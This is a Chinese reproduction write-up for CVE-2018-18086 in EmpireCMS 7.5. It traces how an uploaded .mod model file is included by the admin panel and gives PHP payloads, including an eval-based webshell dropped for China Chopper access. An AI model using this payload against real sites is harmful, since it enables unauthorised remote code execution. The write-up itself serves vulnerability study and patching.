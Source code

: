 # CVE-2018-18086 EmpireCMS 7.5 后台getshell

## 一、漏洞简介

## 二、漏洞影响

EmpireCMS 7.5

## 三、复现过程

查看`/e/admin/ecmsmod.php`代码

![](images/2020_07_08/15942237727097.jpg)


跟随`LoadInMod`函数来到`/e/class/moddofun.php`,可以看到上传文件处使用`make_password(10)`对时间进行加密然后拼接成为上传的文件名,这样就无法得到用户名

![](images/2020_07_08/15942237839443.jpg)


继续浏览代码,在下面发现`@include($path)`,直接包含了这个上传的文件,这时如果在上传文件中添加可以创建文件的代码就可以绕过找不到文件名这个限制了。

![](images/2020_07_08/15942237944775.jpg)


我们可以构造如下payload:

```php
<?php file_put_contents(“shell.php”,”<?php phpinfo(); ?>”); ?>

```

登录后台,点击如下图所示

![](images/2020_07_08/15942238047644.jpg)


点击”导入系统模型”之后进入如下界面

![](images/2020_07_08/15942238121427.jpg)


可以上传一个内容为php代码的`.mod`后缀的文件,内容如下:

![](images/2020_07_08/15942238196520.jpg)


上传`1.php.mod`文件

![](images/2020_07_08/15942238273447.jpg)


查看文件,可以看到成功上传

![](images/2020_07_08/15942238342248.jpg)


浏览访问`http://www.baidu.com/e/admin/shell.php`,可以看到成功执行代码

![](images/2020_07_08/15942238478583.jpg)


上传一个内容可以getshell的1.php.mod,内容入下:注意需要对$进行转义


```php
<?php file_put_contents("caidao.php","<?php @eval(\$_POST[cmd]); ?>");?>
```

成功上传后,菜刀连接,成功getshell

![](images/2020_07_08/15942238943999.jpg)


参考链接

https://www.shuzhiduo.com/A/ZOJPejmP5v/